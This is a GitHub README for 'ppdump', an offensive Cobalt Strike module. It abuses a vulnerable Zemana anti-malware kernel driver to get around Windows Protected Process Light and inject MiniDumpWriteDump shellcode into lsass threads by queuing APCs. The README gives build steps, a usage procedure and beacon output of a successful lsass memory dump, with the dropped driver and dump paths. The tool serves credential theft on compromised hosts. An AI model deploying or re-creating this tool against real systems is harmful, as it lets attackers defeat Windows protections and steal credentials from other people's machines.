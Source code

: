 ## About

The bug that I abuse  goes to [@Dark_Puzzle](https://twitter.com/Dark_Puzzle) whom disclosed [here](http://rce4fun.blogspot.com/2018/02/malwarefox-antimalware-zam64sys.html) the privileged registration with Zemana AntiMalware. I only expanded upon this to use an additional IOCTL to open a thread with FULL_ACCESS (but still with some limitations!).

Protected Process (Light) on the latest iterations of Microsoft Windows has become the bane of most attackers - it prevents tools such as Mimikatz from obtaining a privileged handle to critical processes such as lsass, winlogon, and crss, all of which control the Microsoft kernel in various ways. As such, I studied various means of attacking the kernel and discovered one particular way which succeeded - using a stolen kernel driver to open a privileged handle the process and its underlying threads.

Using these privileged handles, I was able to successfully "APC Bomb" each individual threads until it reached an altertable state by using QueueUserAPC, and Stomping / Resuming the threads a multitude of times. 

### Build

The ppdump module can be built using `Make` and `Mingw-W64`. Simply download the make build system using your favorite package manager, as well the Mingw compiler package, and then run `make`. 

```sh 
$ make
make -f Makefile.x64
make[1]: Entering directory '/home/austin/projects/ppdump-public'
cp -rf src/drvs/zam.x64.h src/zam.x64.h
cp -rf src/shellcode/payload.x64.h src/payload.x64.h
x86_64-w64-mingw32-gcc -shared -s -ldbghelp -lntdll src/*.c src/ldr/*.c -o ppdump.x64.dll
make[1]: Leaving directory '/home/austin/projects/ppdump-public'
make -f Makefile.x86
make[1]: Entering directory '/home/austin/projects/ppdump-public'
cp -rf src/drvs/zam.x86.h src/zam.x86.h
cp -rf src/shellcode/payload.x86.h src/payload.x86.h
i686-w64-mingw32-gcc -shared -s -ldbghelp -lntdll src/*.c src/ldr/*.c -o ppdump.x86.dll
make[1]: Leaving directory '/home/austin/projects/ppdump-public
$ file ppdump.x64.dll ppdump.x64.dll
```

### Usage

Firstly, load the provided Cobalt Strike Aggresor Script into your script resource / console. Afterwards, using `ppdump` command with the provided PID (Process ID) of the target process - pass `ppdump <pid>`, which will kick off the Reflective Module loading process, and then start initializing the driver. A successful run with the process ID of Lsa should result in the following.

```
beacon> ppdump 820
[ ] driver will be stored in C:\WINDOWS\TEMP\tiGr4.sys
[ ] minidump will be stored in C:\WINDOWS\TEMP\usaxb.dmp
[+] Wrote 232792 to C:\WINDOWS\TEMP\tiGr4.sys successfully
[ ] attemping to load C:\WINDOWS\TEMP\tiGr4.sys with service control manager
[ ] registered service tiGr4.sys successfully
[ ] started service tiGr4.sys successfully
[+] LoadDriver() successfully loaded the driver
[ ] Calling ZemanaRegisterProcess() to add 3616
[ ] Opening target process -> 820

 ======= ENTER THE DANGER ZONE =======
[ ] MiniDumpWriteDump Shellcode is 1025 bytes
[ ] Attemping to APC Bomb All Threads
[+] apc successfully queued for 836
[+] apc successfully queued for 848
[+] apc successfully queued for 852
[+] apc successfully queued for 864
[+] apc successfully queued for 3456
[+] apc successfully queued for 4044
[+] apc successfully queued for 344
 ======= LEAVE THE DANGER ZONE =======

[ ] deleted service tiGr4.sys successfully
```

## Bugs
**NOTE**: Please do not run multiple instances of the ppdump command - wait until one has completed before running another. This is because only one driver can be loaded at a time - so if two are loaded at the same time, the process tends to break quiet quickly. Furthermore some of the threads will lock up during the injection process if you run too many of the DLL at the same time.
